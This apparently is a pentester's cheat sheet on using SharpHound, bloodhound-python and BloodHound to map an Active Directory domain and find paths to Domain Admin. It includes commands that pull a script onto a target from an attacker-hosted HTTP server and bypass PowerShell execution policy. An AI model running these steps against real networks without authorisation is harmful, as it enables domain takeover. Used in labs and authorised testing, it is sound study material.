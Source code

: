 # Data Ingesters
Collects data for Bloodhound to analyse.
## Sharphound
https://github.com/SpecterOps/SharpHound/releases
### Step 1: Transfer Sharphound to target
```bash
python3 -m http.server
```
```powershell
iwr -uri http://$(IP_ADDRESS)/sharphound.ps1 -OutFile sharphound.ps1
```
### Step 2: Import Sharphound module
```powershell
powershell -ep bypass
```
```powershell
Import-Module .\Sharphound.ps1
```
### Step 3: Invoke-Bloodhound
```powershell
Get-Help Invoke-BloodHound
```
```powershell
Invoke-BloodHound -CollectionMethod All -OutputDirectory $(PATH_TO_CURRENT_DIRECTORY) -OutputPrefix "$(OUTPUT_FILENAME)"
```
## Bloodhound-Python
```bash
sudo bloodhound-python -d $(DOMAIN) -u $(USERNAME) -p $(PASSWORD) -ns $(DC_IP_ADDRESS) -c all
```
# Bloodhound
## How to run Bloodhound
```bash
sudo neo4j start
```
Note the link:
![image](https://github.com/user-attachments/assets/f775144d-ddcc-4a2b-8e1e-62e17eb024ac)

Log in with default credentials (neo4j/neo4j) and change the password when prompted (REMEMBER THE CREDS - I usually do neo4j1).
```bash
bloodhound
```
On bloodhound, at the menu on the right hand side, select "Upload Data".

Then, navigate to where the files were created and select them all.

Finally, click Settings (represented as two cogs) on the right side of the interface and setting Node Label Display to Always Display.
## Analysis
Useful Options:
* Click the Hamburger menu at the top left. This presents the Database Info.
* Click "Find All Domain Admins".
* Click "Find Shortest Paths to Domain Admins". Right clicking any connection between nodes and clicking "Help" will show more details 
* Objects can be right clicked and "Mark x as Owned" selected. This allows use to mark which objects/users are owned.
* "Shortest Paths to Domain Admins from Owned Principals" option is useful as it shows how to get to Domain Admin based on what we have marked as owned.
